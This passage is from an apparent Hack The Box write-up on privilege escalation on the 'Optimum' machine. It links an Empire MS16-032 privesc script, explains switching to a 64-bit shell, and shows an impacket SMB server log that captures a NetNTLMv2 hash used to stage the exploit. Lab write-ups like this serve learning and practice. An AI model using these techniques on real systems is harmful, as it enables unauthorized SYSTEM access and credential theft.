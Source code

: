 ```
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]                                                                                                                            
==================snip=======================
[*] done
```

I did a little research on the first one but it did not sound useful. On to the next one `MS16-098` stands out as from my research I note it also affect windows server 2012.

I read  bit about this exploit and discovered the initial exploit worked by poping another window rather than giving you options to run commands. But unless I activate a remote desktop on this box I wouldnt be able to know if it worked and even if it worked I wouldnt be able to catch that window. I almost gave up on this but luckily I came across [this empire](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) script which allows you to run any command as system. Sweet!

### Some Setbacks(Learning Moment)

I had a hard time initially trying to get this to work as it kept failing no matter what I did. Trust me when I say i spent 2 good days on this privesc. I had to take a pause and go over powershell basics. I realised When I got my foothold, I did in a 32 bit shell. The exploit I was trying to run was a 64bit and couldnt run on a 32bit shell. This made me go back and get a 64bit shell using C:\Windows\SysNative\ which holds the 64bit binaries. One thing I learnt is `C:\Windows\System32` and `C:\Windows\SysWow64` all hold 32bit binaries.


### Privilege Escalation

I will download it on my box and host an `smbserver` using impacket, then download the file to `optimum` box.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/share]                                                                                                                                                                                                                 └──╼ $ sudo impacket-smbserver smbfolder $(pwd)       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed              
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                         
[*] Config file parsed
[*] Config file parsed
[-] TreeConnectAndX not found SMBSERVER
[-] TreeConnectAndX not found SMBSERVER
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.10.8,49205)
[*] Remaining connections []                                   
[*] Incoming connection (10.10.10.8,49206)
[*] AUTHENTICATE_MESSAGE (OPTIMUM\kostas,OPTIMUM)
[*] User OPTIMUM\kostas authenticated successfully
[*] kostas::OPTIMUM:aaaaaaaaaaaaaaaa:cbd04baed8fe317703535661c3ef3a26:01010000000000008037337c2501da015386942160da49be00000000010010004e0045006e00780057004a004b006100030010004e0045006e00780057004a004b006100020010006a0058005a004800590070007500660004001000
6a0058005a0048005900700075006600070008008037337c2501da01060004000200000008003000300000000000000000000000002000004cadb052479d75c441869d5162b9c585eeb2c773dc0d66f979c366c86ad129160a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e
00310030002e00310036002e003700000000000000000000000000
```
On `optimum` I will use the copy command.
